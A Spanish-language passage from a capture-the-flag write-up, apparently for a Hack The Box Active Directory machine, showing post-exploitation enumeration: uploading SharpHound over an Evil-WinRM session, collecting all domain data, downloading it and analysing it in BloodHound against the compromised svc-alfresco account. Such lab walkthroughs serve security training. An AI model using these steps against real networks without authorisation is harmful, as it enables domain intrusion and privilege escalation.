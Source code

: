 ![imagen](https://github.com/user-attachments/assets/5603e5ec-bcdc-4b81-8f0e-570241f41027)

# Escalada de privilegios

---

### Enumeración con BloodHound

Para avanzar en la exploración del dominio y buscar rutas de escalada de privilegios, el siguiente paso es ejecutar [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) para recopilar datos que luego se utilizarán en [BloodHound](https://github.com/BloodHoundAD/BloodHound). Para hacerlo, debemos cargar el archivo SharpHound.exe utilizando la sesión de Evil-WinRM que ya hemos establecido.

```bash
upload /home/kali/Desktop/HTB/content/SharpHound.exe
```

![imagen](https://github.com/user-attachments/assets/10a2f2a6-3b24-43af-838f-f850ce7521f5)

Lo ejecutamos y obtenemos un archivo `zip`.

```bash
.\Sharphound.exe --CollectionMethods All
```

![imagen](https://github.com/user-attachments/assets/50c83f4b-23c1-438c-87a5-325437a5e33f)

Descargamos el archivo `zip` a nuestra maquina atacante.

```bash
download 20241213044758_BloodHound.zip
```

![imagen](https://github.com/user-attachments/assets/80e803a7-d4a8-4cbf-8c94-a7cb816a31f0)

Ejecuto el siguiente comando para administrar y gestionar una base de datos `Neo4j`.

```bash
neo4j console
```

![imagen](https://github.com/user-attachments/assets/ae2413b2-5ad6-4a71-a922-3eb307d2f8de)

Con este comando iniciamos la interfaz gráfica de usuario (GUI) de BloodHound.

```bash
bloodhound
```

Introducimos las credenciales correspondientes.
Cargamos los datos del archivo `zip` que contiene los resultados recopilados por SharpHound.

![imagen](https://github.com/user-attachments/assets/57909289-44b9-41de-b2d1-0d0054b51b78)

Marcamos al usuario `svc-alfresco` como comprometido, ya que hemos obtenido control sobre la cuenta.
